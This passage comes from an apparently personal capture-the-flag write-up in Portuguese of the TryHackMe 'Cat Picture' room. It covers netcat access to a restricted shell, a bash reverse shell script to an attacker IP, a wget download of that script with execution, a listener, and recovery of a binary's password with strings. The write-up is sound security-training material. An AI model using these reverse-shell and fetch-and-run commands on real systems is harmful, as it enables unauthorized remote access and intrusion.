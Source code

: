 Agora que sabemos a senha podemos conectar no shell

# Exploração (Acesso Inicial)

Utilizando o netcat, conseguimos interarir com o serviço e fazer o “login” no shell.

- Comando: `nc -v 10.10.250.136 4420`

![Untitled](https://mithr4nd1r.github.io/assets/img/tryhackme/2022-12-19-writeup-tryhackme-cat-picture/catpicture4.png)

Não conseguimos utilizar alguns comandos nesse shell restrito, então preparei um arquivo com um shell reverso na minha máquina, subi um servidor http com python e, após baixar na máquina alvo, executei.

```bash
#!/bin/bash
/bin/bash -i >& /dev/tcp/10.13.8.150/1234 0>&1
```
Na máquina alvo: `wget http://10.13.8.150/shell.sh -O /tmp/shell.sh`
Em seguida: `bash /tmp/shell.sh`
![Untitled](https://mithr4nd1r.github.io/assets/img/tryhackme/2022-12-19-writeup-tryhackme-cat-picture/catpicture5.png)

O shell veio:
- Comando: `rlwrap -cAra nc -lnvp 1234`
![Untitled](https://mithr4nd1r.github.io/assets/img/tryhackme/2022-12-19-writeup-tryhackme-cat-picture/catpicture6.png)

## Pós-Exploração (Escaneamento Interno)

Dentro da pasta `/home/catlover` existe um executável chamado `runme`, quando executamos, ele pede uma senha. Tentei a senha ja conhecida, sardinethecat, mas sem sucess.

![Untitled](https://mithr4nd1r.github.io/assets/img/tryhackme/2022-12-19-writeup-tryhackme-cat-picture/catpicture7.png)

Transferi o arquivo para minha máquina para poder usar o comando `strings` nele e poder observar todas as strings contidas nele.
- Comando: `strings runme`
![Untitled](https://mithr4nd1r.github.io/assets/img/tryhackme/2022-12-19-writeup-tryhackme-cat-picture/catpicture8.png)

Nele revela a palavra `rebecca`, que provavelmente é a senha.

E ao testar, confirma-se que realmente é a senha que é pedida:

![Untitled](https://mithr4nd1r.github.io/assets/img/tryhackme/2022-12-19-writeup-tryhackme-cat-picture/catpicture9.png)

## Escalação de Privilégio

Com isso, parti pra testar ná maquina alvo, executei o binário e digitei a senha

![Untitled](https://mithr4nd1r.github.io/assets/img/tryhackme/2022-12-19-writeup-tryhackme-cat-picture/catpicture10.png)

Ao dar um `ls -la` verifica-se que uma chave privada apareceu na pasta
